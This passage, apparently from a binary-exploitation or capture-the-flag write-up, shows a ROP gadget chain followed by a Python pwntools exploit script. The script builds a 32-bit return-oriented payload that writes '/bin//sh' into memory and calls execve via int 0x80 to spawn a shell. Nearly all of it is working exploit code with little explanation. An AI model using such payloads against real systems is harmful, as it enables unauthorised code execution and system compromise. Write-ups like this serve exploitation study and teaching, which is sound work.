 ```bash
  p += pack('<I', 0x080ea068) # @ .data + 8
  p += pack('<I', 0x08049303) # xor eax, eax ; ret
  p += pack('<I', 0x0807a86f) # inc eax ; ret
  p += pack('<I', 0x0807a86f) # inc eax ; ret
  p += pack('<I', 0x0807a86f) # inc eax ; ret
  p += pack('<I', 0x0807a86f) # inc eax ; ret
  p += pack('<I', 0x0807a86f) # inc eax ; ret
  p += pack('<I', 0x0807a86f) # inc eax ; ret
  p += pack('<I', 0x0807a86f) # inc eax ; ret
  p += pack('<I', 0x0807a86f) # inc eax ; ret
  p += pack('<I', 0x0807a86f) # inc eax ; ret
  p += pack('<I', 0x0807a86f) # inc eax ; ret
  p += pack('<I', 0x0807a86f) # inc eax ; ret
  p += pack('<I', 0x0806cc25) # int 0x80
```

Now we can simply use this in our exploit script:
```python
#!/usr/bin/env python

from pwn import *
from struct import pack


debug = 0

user = ''
pw = ''

payload = ''

payload += pack('<I', 0x0806f02a) # pop edx ; ret
payload += pack('<I', 0x080ea060) # @ .data
payload += pack('<I', 0x080b81c6) # pop eax ; ret
payload += '/bin'
payload += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x0806f02a) # pop edx ; ret
payload += pack('<I', 0x080ea064) # @ .data + 4
payload += pack('<I', 0x080b81c6) # pop eax ; ret
payload += '//sh'
payload += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x0806f02a) # pop edx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x08049303) # xor eax, eax ; ret
payload += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x080481c9) # pop ebx ; ret
payload += pack('<I', 0x080ea060) # @ .data
payload += pack('<I', 0x080de955) # pop ecx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x0806f02a) # pop edx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x08049303) # xor eax, eax ; ret
payload += pack('<I', 0x0807a86f) # inc eax ; ret
payload += pack('<I', 0x0807a86f) # inc eax ; ret
payload += pack('<I', 0x0807a86f) # inc eax ; ret
payload += pack('<I', 0x0807a86f) # inc eax ; ret
payload += pack('<I', 0x0807a86f) # inc eax ; ret
payload += pack('<I', 0x0807a86f) # inc eax ; ret
payload += pack('<I', 0x0807a86f) # inc eax ; ret
payload += pack('<I', 0x0807a86f) # inc eax ; ret
payload += pack('<I', 0x0807a86f) # inc eax ; ret
payload += pack('<I', 0x0807a86f) # inc eax ; ret
payload += pack('<I', 0x0807a86f) # inc eax ; ret
payload += pack('<I', 0x0806cc25) # int 0x80
```